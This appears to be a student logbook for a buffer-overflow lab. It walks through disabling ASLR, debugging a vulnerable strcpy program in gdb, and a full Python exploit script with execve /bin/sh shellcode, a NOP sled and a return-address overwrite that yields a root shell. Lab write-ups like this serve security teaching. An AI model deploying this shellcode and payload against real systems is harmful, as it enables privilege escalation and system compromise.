 # Logbook 5 

## Environment Setup 

First, we turn off some of the operating system's protections using the commands that are given (sudo sysctl -w kernel.randomize_va_space=0 and sudo ln -sf /bin/zsh /bin/sh). 

![Alt text](images/1.png)

## Task 1 

In 3.1 we created a file with the given C code and then compile and execute the program and conclude that will open a new shell. 

In 3.2 we just analyzed and tried to understand how the shellcode given invokes the execve() system call to execute /bin/sh. 

In 3.3 is just to understand how the 64-bit shell works.

In 3.4 we went to the past shellcode and compiled the file with help of the Makefile already given and then execute the a32.out and the a64.out. 

![Alt text](images/2.png)

![Alt text](images/3.png)

We conclude that both files generate a shellcode. 

## Task 2

In this task we compiled the program with the commands given. 

![Alt text](images/4.png)

After analyzing the code, we noticed the attempt to copy a char array with a maximum size of 517 bytes into a buffer with a maximum size of 100 bytes so overflow will occur because the function strcpy doesn’t check the limits of the buffer.   

## Task 3

In 5.1 we create an empty file (badfile) and run the code with a debugging method in order to discover the starting position and the place where the return-address is stored. To do this, we used gdb to debug and put a breakpoint in the bof() function following the instructions given in the task.

$ touch badfile # Create empty badfile

$ gdb stack-L1-dbg # Run the program in debug mode

gdb-peda$ b bof # Set a breakpoint in the bof function

![Alt text](/images/Logbook5-1.png)

gdb-peda$ run # Start executing the file

![Alt text](/images/Logbook5-2.png)

![Alt text](/images/Logbook5-3.png)

gdb-peda$ next # See the note below

![Alt text](/images/Logbook5-4.png)

![Alt text](/images/Logbook5-5.png)

gdb-peda$ p $ebp # Get the ebp value 

$1 = (void *) 0xffffdfd8

![Alt text](/images/Logbook5-6.png)

gdb-peda$ p &buffer # Get the buffer’s address 

$2 = (char (*)[100]) 0xffffdfac

![Alt text](/images/Logbook5-7.png)

In 5.2: 

First, we change the shell_code in exploit file for the 32 bits shell code (given in the previous tasks). 
We put our start to 490 because the buffer has a size of 517 and our shell has a size of 27 bytes, so 517-27=490.

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 490               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xFFFFCB96     # Change this number 
offset = 112            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

To test this we open terminal where exploit.py and stack_l1 is located and run the exploit.py file and then the stack-L1. We got access to the rootshell as you can see in the print below, so we know it worked properly.

![Alt text](/images/Logbook5-8.png)
